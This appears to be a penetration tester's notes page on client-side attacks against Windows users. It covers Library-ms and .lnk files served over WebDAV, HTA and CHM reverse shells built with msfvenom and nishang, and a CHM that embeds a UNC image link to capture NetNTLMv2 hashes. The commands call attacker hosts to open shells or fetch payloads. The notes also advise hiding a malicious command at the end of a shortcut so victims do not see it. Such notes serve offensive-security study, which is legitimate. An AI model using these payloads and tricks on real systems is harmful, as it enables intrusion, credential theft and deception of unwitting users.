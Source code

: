 ```bash

# To execute the attack
- Host config.Library-ms and link.lnk inside WebDAV folder and run WebDAV
- Start Python server on port 8000 to host Inv-Pow.ps1 or Powercat (if fails, move them to /home/kali/webdav as well)
- Start listener on Netcat on the desired port
- Find a way to upload config.Library-ms on the target (via FTP, SMB, upload form...)
- Wait a bit until attack is successful

# NOTE: to test the file created, we could click on config.Library-ms from the Windows VM Prep machine to see the files
# NOTE 1: use Python HTTP server to host powercat, WebDAV is worse idea since it is writable and Windows could delete our files/payloads.
# Then copy config.Library-ms and .lnk file to our attacking machine. Then upload the Win Library to the target via SMB/FTP or as an email attachment.
# NOTE 2: we have to convince the target to open Win Library and .lnk. For the .lnk command, it the targeted user is tech-savvy, we could use some benign commands and place the malicious one at the end when the cursor does not go and it cannot be seen easily.
```
{% endcode %}

## HTA

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript.

{% code overflow="wrap" fullWidth="true" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload,
```
{% endcode %}

## CHM

{% code overflow="wrap" %}
```bash
# ********* .CHM REVERSE SHEL
https://rioasmara.com/2020/09/02/create-chm-for-reverse-shell-nishang/
Install https://archive.org/details/htmlhelp on Windows VM
https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1
PS C:\Users\commando\Downloads\repos\nishang\Client > Import-Module .\Out-CHM.ps1
COMMANDO 5/14/2023 3:02:36 PM
PS C:\Users\commando\Downloads\repos\nishang\Client > Out-CHM -PayloadURL http://10.10.0.0/rev.ps1 -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702

# ********* .CHM innocent file
In order to exploit this, we can create a new CHM ﬁle containing a UNC link, that will trigger a connection to our server on opening. This will allow us to steal the admins NetNTLMv2 hashes. Consider the following HTML code.
<html> 
<body> 
<img src=\\10.10.14.3\share\abc.png /> 
</body> 
</html>

Save the file as file.html. Then, having dowloaded HTML Help Workshop, let's run hhp.exe or htmlhelp.exe, create a new project, existing files, tick .htm files, add ours and then compile it to have a .chm file.
Then upload that file and if use responder to catch NetNTLMv2 hashes when a user opens the file on the target.
```